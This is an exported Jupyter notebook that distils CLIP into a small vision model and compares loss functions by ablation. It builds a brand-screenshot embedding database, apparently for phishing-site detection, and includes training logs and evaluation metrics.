print(f"  Params : {n_par:,}  (~{n_par*4/1e6:.1f} MB)")

# ── DISTILLATION LOSS ────────────────────────────────────────────
def distill_loss(vis_emb, clip_emb, alpha=0.5):
    mse = F.mse_loss(vis_emb, clip_emb)
    cos = 1 - F.cosine_similarity(
        vis_emb, clip_emb, dim=1).mean()
    return alpha * mse + (1-alpha) * cos

@torch.no_grad()
def clip_embed(imgs):
    f = clip_model.encode_image(imgs)
    return F.normalize(f.float(), p=2, dim=1)

# ── TRAIN ───────────────────────────────────────────────────────
print("\n[4/6] Training ViS via CLIP distillation...")
optim = torch.optim.AdamW(vis_model.parameters(), lr=LR, weight_decay=1e-4)
sched = torch.optim.lr_scheduler.CosineAnnealingLR(optim, T_max=EPOCHS)
history  = {'train':[], 'val':[]}
best_val = float('inf')

for epoch in range(EPOCHS):
    vis_model.train()
    tr_l = []
    for vis_imgs, clip_imgs, _ in tr_ldr:
        vis_imgs  = vis_imgs.to(DEVICE)
        clip_imgs = clip_imgs.to(DEVICE)
        clip_emb  = clip_embed(clip_imgs)
        optim.zero_grad()
        vis_emb = vis_model(vis_imgs)
        loss    = distill_loss(vis_emb, clip_emb)
        loss.backward()
        optim.step()
        tr_l.append(loss.item())

    vis_model.eval()
    vl_l = []
    with torch.no_grad():
        for vis_imgs, clip_imgs, _ in vl_ldr:
            vis_imgs  = vis_imgs.to(DEVICE)
            clip_imgs = clip_imgs.to(DEVICE)
            clip_emb  = clip_embed(clip_imgs)
            vis_emb   = vis_model(vis_imgs)
            vl_l.append(
                distill_loss(vis_emb, clip_emb).item())

    sched.step()
    tl = np.mean(tr_l)
    vl = np.mean(vl_l)
    history['train'].append(tl)
    history['val'].append(vl)

    if vl < best_val:
        best_val = vl
        torch.save(vis_model.state_dict(), "vis_best.pt")

    if epoch % 5 == 0 or epoch == EPOCHS-1:
        print(f"  Epoch {epoch+1:3d}/{EPOCHS} | "
              f"train={tl:.4f} | val={vl:.4f}")

vis_model.load_state_dict(torch.load("vis_best.pt"))
print("  Saved vis_best.pt")

# ── BUILD EMBEDDINGDB ────────────────────────────────────────────
print("\n[5/6] Building EmbeddingDB from ViS embeddings...")
vis_model.eval()
all_embs, all_idxs = [], []
full_ldr = DataLoader(dataset, BATCH_SIZE, shuffle=False)

with torch.no_grad():
    for vis_imgs, _, idxs in full_ldr:
        embs = vis_model(vis_imgs.to(DEVICE))
        all_embs.append(embs.cpu())
        all_idxs.extend(idxs.tolist())

all_embs = torch.cat(all_embs)

EmbeddingDB = {}
for site_idx, site_name in enumerate(dataset.site_names):
    mask  = [i for i, s in enumerate(all_idxs)
             if s == site_idx]
    embs  = all_embs[mask]
    EmbeddingDB[site_name] = {
        'embeddings': embs,
        'domain'    : DOMAIN_MAP.get(
                        site_name,
                        site_name.lower() + ".com"),
        'n_shots'   : embs.size(0)
    }
    print(f"  {site_name:<20} "
          f"{embs.size(0)} embeddings")

torch.save(EmbeddingDB, "vis_embedding_db.pt")
print("  Saved vis_embedding_db.pt")
print("  CLIP no longer needed at inference.")

# ── PLOTS ───────────────────────────────────────────────────────
print("\n[6/6] Plots...")
plt.figure(figsize=(8,4))
plt.plot(history['train'], label='Train')
plt.plot(history['val'],   label='Val')
plt.title("ViS — CLIP Distillation Loss")
plt.xlabel("Epoch"); plt.legend()
plt.tight_layout()
plt.savefig("vis_results.png", dpi=150, bbox_inches='tight')
plt.show()
print("  Saved vis_results.png")

Device: cuda

[1/5] Loading frozen CLIP teacher...
  CLIP frozen.

[2/5] Loading screenshots...

[3/5] Running ablation: ['MSE', 'COSINE', 'HYBRID']

────────────────────────────────────────────────────────────
  LOSS MODE: MSE
────────────────────────────────────────────────────────────
    Epoch   1/10 | train=0.0017 | val=0.0011 | mse=0.0017 | cos=0.4382
    Epoch   6/10 | train=0.0008 | val=0.0008 | mse=0.0008 | cos=0.2036
    Epoch  10/10 | train=0.0007 | val=0.0007 | mse=0.0007 | cos=0.1790

  [MSE] RESULTS:
    Best val loss        : 0.0007
    ViS-CLIP cosine sim  : 0.8505  (1.0 = perfect CLIP mimic)
    Self-similarity      : 0.9627  (same-brand shots clustering)
    % above threshold    : 98.5%  (reliable DB matching)

────────────────────────────────────────────────────────────
  LOSS MODE: COSINE
────────────────────────────────────────────────────────────
    Epoch   1/10 | train=0.4381 | val=0.2706 | mse=0.0017 | cos=0.4381
    Epoch   6/10 | train=0.2041 | val=0.1965 | m



  Saved vis_ablation_loss.png

  Best loss mode overall: MSE
  ViS-CLIP sim: 0.8505
  Copied vis_mse.pt → vis_best_final.pt

  ABLATION COMPLETE
  Saved models:
    vis_mse.pt
    vis_cosine.pt
    vis_hybrid.pt
  Best overall: vis_best_final.pt
  Plot: vis_ablation_loss.png


In [9]:
# ViS DISTILLATION LOSS FUNCTION JUSTIFICATION - ABLATION STUDY

# ── CONFIG ─────────────────────────────────────────────────────
BASE_DIR      = "/kaggle/input/datasets/**/phiscap-hf/FC_Legit_Phis/Legit"
EMBED_DIM     = 512
MC_PASSES     = 20
SIM_THRESHOLD = 0.80
BATCH_SIZE    = 8
EPOCHS        = 10
LR            = 1e-3
RANDOM_SEED   = 42
DEVICE = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Device: {DEVICE}")

torch.manual_seed(RANDOM_SEED)
np.random.seed(RANDOM_SEED)

# ── ALL ABLATION CONDITIONS ─────────────────────────────────────
ABLATION_MODES = ["MSE", "COSINE", "HYBRID"]

# ── LOAD CLIP ONCE (shared across all runs) ─────────────────────
print("\n[1/5] Loading frozen CLIP teacher...")
clip_model, _, clip_prep = open_clip.create_model_and_transforms(
    'ViT-B-32', pretrained='openai')
clip_model = clip_model.to(DEVICE).eval()
for p in clip_model.parameters():
    p.requires_grad = False
print("  CLIP frozen.")

VIS_TRANSFORM = T.Compose([
    T.Resize((224, 224)),
    T.ToTensor(),
    T.Normalize(mean=[0.485,0.456,0.406],
                std =[0.229,0.224,0.225])
])

# ── DATASET (loaded once, reused across all runs) ───────────────
print("\n[2/5] Loading screenshots...")

class BrandDataset(Dataset):
    def __init__(self, root, domain_map, vis_tf, clip_tf):
        self.vis_tf     = vis_tf
        self.clip_tf    = clip_tf
        self.samples    = []
        self.site_names = sorted([
            d for d in os.listdir(root)
            if os.path.isdir(os.path.join(root, d))
        ])
        EXTS = {'.png','.jpg','.jpeg','.webp'}
        for idx, site in enumerate(self.site_names):
            site_dir = os.path.join(root, site)
            imgs = [f for f in os.listdir(site_dir)
                    if os.path.splitext(f)[1].lower() in EXTS]
            for img in sorted(imgs):
                self.samples.append(
                    (os.path.join(site_dir, img), idx))
            # print(f"  {site:<20} {len(imgs)} screenshots")
        # print(f"  Brands: {len(self.site_names)} | "
        #       f"Total: {len(self.samples)}")

    def __len__(self): return len(self.samples)

    def __getitem__(self, idx):
        path, site_idx = self.samples[idx]
        img = Image.open(path).convert("RGB")
        return self.vis_tf(img), self.clip_tf(img), site_idx

dataset = BrandDataset(
    BASE_DIR, DOMAIN_MAP, VIS_TRANSFORM, clip_prep)
N_SITES = len(dataset.site_names)

# Fixed split — same across all ablation runs
n_train = int(0.8 * len(dataset))
n_val   = len(dataset) - n_train
g       = torch.Generator().manual_seed(RANDOM_SEED)
tr_set, vl_set = torch.utils.data.random_split(
    dataset, [n_train, n_val], generator=g)
tr_ldr = DataLoader(tr_set, BATCH_SIZE,
                    shuffle=True,  num_workers=2)
vl_ldr = DataLoader(vl_set, BATCH_SIZE,
                    shuffle=False, num_workers=2)
full_ldr = DataLoader(dataset, BATCH_SIZE,
                      shuffle=False, num_workers=2)

def make_fresh_model():
    """Always start from same ImageNet weights for fair comparison."""
    torch.manual_seed(RANDOM_SEED)
    return ViS(out_dim=EMBED_DIM).to(DEVICE)

# ── LOSS FUNCTIONS ───────────────────────────────────────────────
def distill_loss(vis_emb, clip_emb, mode="HYBRID", alpha=0.5):
    mse = F.mse_loss(vis_emb, clip_emb)
    cos = 1 - F.cosine_similarity(vis_emb, clip_emb, dim=1).mean()
    if   mode == "MSE"   : return mse, mse.item(), cos.item()
    elif mode == "COSINE": return cos, mse.item(), cos.item()
    elif mode == "HYBRID":
        return (alpha*mse + (1-alpha)*cos,
                mse.item(), cos.item())
    else: raise ValueError(f"Unknown mode: {mode}")

@torch.no_grad()
def clip_embed(imgs):
    f = clip_model.encode_image(imgs)
    return F.normalize(f.float(), p=2, dim=1)

# ── EVALUATION METRICS ──────────────────────────────────────────
def enable_mc_dropout(model):
    for m in model.modules():
        if isinstance(m, nn.Dropout):
            m.train()

@torch.no_grad()
def evaluate_model(model, embedding_db):
    model.eval()

    # ── 1. ViS vs CLIP cosine similarity ────────────────────────
    all_vis, all_clip, all_sites = [], [], []
    with torch.no_grad():
        for vis_imgs, clip_imgs, site_idxs in full_ldr:
            vis_imgs  = vis_imgs.to(DEVICE)
            clip_imgs = clip_imgs.to(DEVICE)
            vis_emb   = model(vis_imgs)
            clip_emb  = clip_embed(clip_imgs)
            all_vis.append(vis_emb.cpu())
            all_clip.append(clip_emb.cpu())
            all_sites.extend(site_idxs.tolist())

    all_vis  = torch.cat(all_vis)
    all_clip = torch.cat(all_clip)

    vis_clip_sims = F.cosine_similarity(
        all_vis, all_clip, dim=1).numpy()
    mean_vis_clip = float(vis_clip_sims.mean())

    # ── 2. Self-similarity per site ──────────────────────────────
    self_sims = []
    above_th  = []

    for site_idx, site_name in enumerate(dataset.site_names):
        if site_name not in embedding_db:
            continue
        stored = embedding_db[site_name]['embeddings']  # [n, 512]

        # For each stored embedding, find max sim to OTHER stored
        for i in range(stored.size(0)):
            others = torch.cat([stored[:i], stored[i+1:]])
            if others.size(0) == 0:
                continue
            sims = F.cosine_similarity(
                stored[i].unsqueeze(0).expand(
                    others.size(0), -1),
                others, dim=1)
            best = sims.max().item()
            self_sims.append(best)
            above_th.append(int(best >= SIM_THRESHOLD))

    mean_self_sim = float(np.mean(self_sims)) if self_sims else 0.0
    pct_above     = float(np.mean(above_th))  if above_th  else 0.0

    return {
        'mean_vis_clip_sim': mean_vis_clip,
        'mean_self_sim'    : mean_self_sim,
        'pct_above_thresh' : pct_above,
        'vis_clip_sims'    : vis_clip_sims,
    }

def build_embedding_db(model):
    """Build EmbeddingDB from model's current embeddings."""
    model.eval()
    all_embs, all_idxs = [], []
    with torch.no_grad():
        for vis_imgs, _, idxs in full_ldr:
            embs = model(vis_imgs.to(DEVICE))
            all_embs.append(embs.cpu())
            all_idxs.extend(idxs.tolist())
    all_embs = torch.cat(all_embs)

    db = {}
    for site_idx, site_name in enumerate(dataset.site_names):
        mask = [i for i, s in enumerate(all_idxs)
                if s == site_idx]
        embs = all_embs[mask]
        db[site_name] = {
            'embeddings': embs,
            'domain'    : DOMAIN_MAP.get(
                            site_name,
                            site_name.lower() + ".com"),
            'n_shots'   : embs.size(0)
        }
    return db

# ══════════════════════════════════════════════════════════════
# ABLATION LOOP — train once per loss mode
# ══════════════════════════════════════════════════════════════

print(f"\n[3/5] Running ablation: {ABLATION_MODES}")
print("="*60)

ablation_results = {}   # mode → metrics dict

for mode in ABLATION_MODES:
    print(f"\n{'─'*60}")
    print(f"  LOSS MODE: {mode}")
    print(f"{'─'*60}")

    model = make_fresh_model()
    optim = torch.optim.AdamW(
        model.parameters(), lr=LR, weight_decay=1e-4)
    sched = torch.optim.lr_scheduler.CosineAnnealingLR(
        optim, T_max=EPOCHS)

    history   = {
        'train_total': [], 'val_total': [],
        'train_mse'  : [], 'train_cos': []
    }
    best_val  = float('inf')
    best_state= None

    for epoch in range(EPOCHS):
        model.train()
        tr_total, tr_mse, tr_cos = [], [], []

        for vis_imgs, clip_imgs, _ in tr_ldr:
            vis_imgs  = vis_imgs.to(DEVICE)
            clip_imgs = clip_imgs.to(DEVICE)
            clip_emb  = clip_embed(clip_imgs)
            optim.zero_grad()
            vis_emb   = model(vis_imgs)
            loss, mse_v, cos_v = distill_loss(
                vis_emb, clip_emb, mode=mode)
            loss.backward()
            optim.step()
            tr_total.append(loss.item())
            tr_mse.append(mse_v)
            tr_cos.append(cos_v)

        model.eval()
        vl_total = []
        with torch.no_grad():
            for vis_imgs, clip_imgs, _ in vl_ldr:
                vis_imgs  = vis_imgs.to(DEVICE)
                clip_imgs = clip_imgs.to(DEVICE)
                clip_emb  = clip_embed(clip_imgs)
                vis_emb   = model(vis_imgs)
                loss, _, _ = distill_loss(
                    vis_emb, clip_emb, mode=mode)
                vl_total.append(loss.item())

        sched.step()
        tl = np.mean(tr_total)
        vl = np.mean(vl_total)

        history['train_total'].append(tl)
        history['val_total'].append(vl)
        history['train_mse'].append(np.mean(tr_mse))
        history['train_cos'].append(np.mean(tr_cos))

        if vl < best_val:
            best_val   = vl
            best_state = copy.deepcopy(model.state_dict())

        if epoch % 5 == 0 or epoch == EPOCHS-1:
            print(f"    Epoch {epoch+1:3d}/{EPOCHS} | "
                  f"train={tl:.4f} | val={vl:.4f} | "
                  f"mse={np.mean(tr_mse):.4f} | "
                  f"cos={np.mean(tr_cos):.4f}")

    # Load best and evaluate
    model.load_state_dict(best_state)
    torch.save(model.state_dict(), f"vis_{mode.lower()}.pt")

    db     = build_embedding_db(model)
    metrics= evaluate_model(model, db)

    ablation_results[mode] = {
        'history': history,
        'metrics': metrics,
        'best_val': best_val,
    }

    print(f"\n  [{mode}] RESULTS:")
    print(f"    Best val loss        : {best_val:.4f}")
    print(f"    ViS-CLIP cosine sim  : "
          f"{metrics['mean_vis_clip_sim']:.4f}  "
          f"(1.0 = perfect CLIP mimic)")
    print(f"    Self-similarity      : "
          f"{metrics['mean_self_sim']:.4f}  "
          f"(same-brand shots clustering)")
    print(f"    % above threshold    : "
          f"{metrics['pct_above_thresh']*100:.1f}%  "
          f"(reliable DB matching)")

# ══════════════════════════════════════════════════════════════
# SUMMARY TABLE
# ══════════════════════════════════════════════════════════════

print(f"\n[4/5] Ablation Summary")
print("="*60)
print(f"  {'Loss Mode':<10} {'Best Val':>9} "
      f"{'ViS-CLIP Sim':>13} "
      f"{'Self-Sim':>10} "
      f"{'%>Thresh':>10}")
print(f"  {'─'*55}")
for mode in ABLATION_MODES:
    r = ablation_results[mode]
    m = r['metrics']
    print(f"  {mode:<10} "
          f"{r['best_val']:>9.4f} "
          f"{m['mean_vis_clip_sim']:>13.4f} "
          f"{m['mean_self_sim']:>10.4f} "
          f"{m['pct_above_thresh']*100:>9.1f}%")
print("="*60)

# ══════════════════════════════════════════════════════════════
# PLOTS
# ══════════════════════════════════════════════════════════════

print("\n[5/5] Generating ablation plots...")

MODE_COLORS = {
    "MSE"   : "#2196F3",
    "COSINE": "#F44336",
    "HYBRID": "#4CAF50"
}

fig, axes = plt.subplots(2, 3, figsize=(20, 12))
fig.suptitle(
    "ViS Ablation Study — Distillation Loss Function\n"
    "MSE vs Cosine vs Hybrid (α=0.5)",
    fontsize=14, fontweight='bold')

# 1 — Training loss curves
ax = axes[0, 0]
for mode in ABLATION_MODES:
    h = ablation_results[mode]['history']
    ax.plot(h['train_total'],
            label=f"{mode} train",
            color=MODE_COLORS[mode], linewidth=2)
    ax.plot(h['val_total'],
            label=f"{mode} val",
            color=MODE_COLORS[mode],
            linewidth=1.5, linestyle='--')
ax.set_title("Training & Validation Loss")
ax.set_xlabel("Epoch")
ax.set_ylabel("Loss")
ax.legend(fontsize=8)
ax.grid(alpha=0.3)

# 2 — MSE component across modes
ax = axes[0, 1]
for mode in ABLATION_MODES:
    h = ablation_results[mode]['history']
    ax.plot(h['train_mse'],
            label=mode,
            color=MODE_COLORS[mode], linewidth=2)
ax.set_title("MSE Component (Training)\n"
             "How well embeddings match CLIP magnitude")
ax.set_xlabel("Epoch")
ax.set_ylabel("MSE Loss")
ax.legend()
ax.grid(alpha=0.3)

# 3 — Cosine component across modes
ax = axes[0, 2]
for mode in ABLATION_MODES:
    h = ablation_results[mode]['history']
    ax.plot(h['train_cos'],
            label=mode,
            color=MODE_COLORS[mode], linewidth=2)
ax.set_title("Cosine Distance Component (Training)\n"
             "How well embeddings match CLIP direction")
ax.set_xlabel("Epoch")
ax.set_ylabel("Cosine Distance")
ax.legend()
ax.grid(alpha=0.3)

# 4 — ViS-CLIP similarity distribution per mode
ax = axes[1, 0]
for mode in ABLATION_MODES:
    sims = ablation_results[mode]['metrics']['vis_clip_sims']
    ax.hist(sims, bins=20, alpha=0.5,
            label=f"{mode} (μ={sims.mean():.3f})",
            color=MODE_COLORS[mode], edgecolor='black')
ax.axvline(0.80, color='orange', linestyle='--',
           linewidth=1.5, label='0.80')
ax.axvline(0.90, color='red', linestyle='--',
           linewidth=1.5, label='0.90')
ax.set_title("ViS-CLIP Cosine Similarity Distribution\n"
             "Higher = better CLIP mimicry")
ax.set_xlabel("Cosine Similarity")
ax.set_ylabel("Count")
ax.legend(fontsize=8)
ax.grid(alpha=0.3)

# 5 — Bar: three key metrics side by side
ax = axes[1, 1]
metrics_names = [
    'ViS-CLIP\nSim', 'Self-\nSimilarity', '%>Thresh\n(÷100)'
]
x = np.arange(len(metrics_names))
w = 0.25
for j, mode in enumerate(ABLATION_MODES):
    m = ablation_results[mode]['metrics']
    vals = [
        m['mean_vis_clip_sim'],
        m['mean_self_sim'],
        m['pct_above_thresh']
    ]
    ax.bar(x + j*w, vals, w,
           label=mode,
           color=MODE_COLORS[mode],
           edgecolor='black')
ax.set_xticks(x + w)
ax.set_xticklabels(metrics_names)
ax.set_title("Key Metrics Comparison\nAcross Loss Modes")
ax.set_ylabel("Score")
ax.set_ylim(0, 1.15)
ax.legend()
ax.axhline(0.80, color='orange', linestyle='--',
           alpha=0.5, linewidth=1)
ax.grid(alpha=0.3, axis='y')

# 6 — Summary table as plot
ax = axes[1, 2]
ax.axis('off')
table_data = [
    ["Loss Mode", "Best\nVal Loss",
     "ViS-CLIP\nSim", "Self\nSim", "%>Thresh"],
]
for mode in ABLATION_MODES:
    r = ablation_results[mode]
    m = r['metrics']
    table_data.append([
        mode,
        f"{r['best_val']:.4f}",
        f"{m['mean_vis_clip_sim']:.4f}",
        f"{m['mean_self_sim']:.4f}",
        f"{m['pct_above_thresh']*100:.1f}%"
    ])

tbl = ax.table(
    cellText=table_data[1:],
    colLabels=table_data[0],
    loc='center', cellLoc='center')
tbl.auto_set_font_size(False)
tbl.set_fontsize(10)
tbl.scale(1.1, 2.2)

# Header styling
for j in range(5):
    tbl[0, j].set_facecolor('#1565C0')
    tbl[0, j].set_text_props(
        color='white', fontweight='bold')

# Row styling — highlight best per column
best_vis_clip = max(ABLATION_MODES,
    key=lambda m: ablation_results[m]['metrics']
    ['mean_vis_clip_sim'])
for i, mode in enumerate(ABLATION_MODES):
    bg = '#E8F5E9' if mode == best_vis_clip else (
         '#F5F5F5' if i % 2 == 0 else 'white')
    for j in range(5):
        tbl[i+1, j].set_facecolor(bg)

ax.set_title("Ablation Results Summary\n"
             "(green = best ViS-CLIP sim)",
             fontweight='bold', pad=20)

plt.tight_layout()
plt.savefig("vis_ablation_loss.png",
            dpi=150, bbox_inches='tight')
plt.show()
print("  Saved vis_ablation_loss.png")

# ── Save best model overall ──────────────────────────────────────
best_mode = max(
    ABLATION_MODES,
    key=lambda m: ablation_results[m]['metrics']
    ['mean_vis_clip_sim'])
print(f"\n  Best loss mode overall: {best_mode}")
print(f"  ViS-CLIP sim: "
      f"{ablation_results[best_mode]['metrics']['mean_vis_clip_sim']:.4f}")
import shutil
shutil.copy(f"vis_{best_mode.lower()}.pt", "vis_best_final.pt")
print(f"  Copied vis_{best_mode.lower()}.pt → vis_best_final.pt")

print("\n" + "="*60)
print("  ABLATION COMPLETE")
print("="*60)
print("  Saved models:")
for mode in ABLATION_MODES:
    print(f"    vis_{mode.lower()}.pt")
print("  Best overall: vis_best_final.pt")
print("  Plot: vis_ablation_loss.png")

Device: cuda

[2/6] Loading screenshots...

[3/6] Building ViS model...
  Params : 1,206,304  (~4.8 MB)
  Saved vis_best.pt

[5/6] Building EmbeddingDB from ViS embeddings...
  AliExpress           5 embeddings
  Alibaba              4 embeddings
  Amazon               5 embeddings
  BRACBank             14 embeddings
  BangladeshDevelopmentBank 5 embeddings
  BangladeshKrishiBank 4 embeddings
  BangladeshUniversityofEngineeringTechnology 7 embeddings
  BankAsia             6 embeddings
  BasicBank            6 embeddings
  Bikroy               5 embeddings
  ChatGPT              4 embeddings
  ChittagongUniversityofEngineeringTechnology 5 embeddings
  CityBank             8 embeddings
  Claude               4 embeddings
  DailyStar            6 embeddings
  Daraz                10 embeddings
  DutchBanglaBank      13 embeddings
  EasternBank          7 embeddings
  Facebook             6 embeddings
  Gemini               3 embeddings
  Google               3 embeddings
  GrokAi       

100%|██████████| 270/270 [00:41<00:00,  6.44it/s]


Top1          : 99.26
Similarity    : 0.9988
Margin        : 0.0670
MC Std        : 0.0060


